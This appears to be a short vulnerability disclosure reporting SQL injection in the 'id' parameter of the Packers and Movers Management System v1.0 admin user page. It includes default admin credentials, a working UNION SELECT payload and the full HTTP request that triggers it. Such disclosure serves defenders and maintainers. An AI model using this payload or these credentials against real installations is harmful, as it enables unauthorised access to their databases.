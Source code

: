 # Packers and Movers Management System v1.0 by oretnom23 has SQL injection

BUG_Author: geilihan

vendors: https://www.sourcecodester.com/php/15360/packers-and-movers-management-system-phpoop-free-source-code.html

Vulnerability File: /mpms/admin/?page=user/manage_user&id=

Vulnerability location: /mpms/admin/?page=user/manage_user&id=, id

username:password : admin:admin123

[+] Payload: /mpms/admin/?page=user/manage_user&id=-7' union select 1,2,database(),4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /mpms/admin/?page=user/manage_user&id=-7%27%20union%20select%201,2,database(),4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=c01he3spaa8msq4609rs8bml47
Connection: close
```

![image](https://github.com/geilihan/bug_reports/assets/149031238/bbc304f0-ba0f-4da3-b257-3d07bf1850e0)
